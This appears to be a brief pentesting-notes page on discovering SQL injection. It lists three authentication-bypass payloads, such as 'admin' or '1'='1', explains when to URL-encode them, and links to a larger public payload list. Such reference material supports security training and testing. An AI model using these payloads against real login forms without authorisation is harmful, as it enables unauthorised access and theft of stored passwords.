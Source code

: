 # SQL Injection Discovery



## SQL Injection Discovery

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**Note:**</mark> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.



**Examples:**

```sql
admin' or '1'='1
```

```sql
' or 1=1 in (SELECT password FROM users) -- //
```

```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```



You can find a comprehensive list of SQLi auth bypass payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass), each of which works on a certain type of SQL queries.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}



\
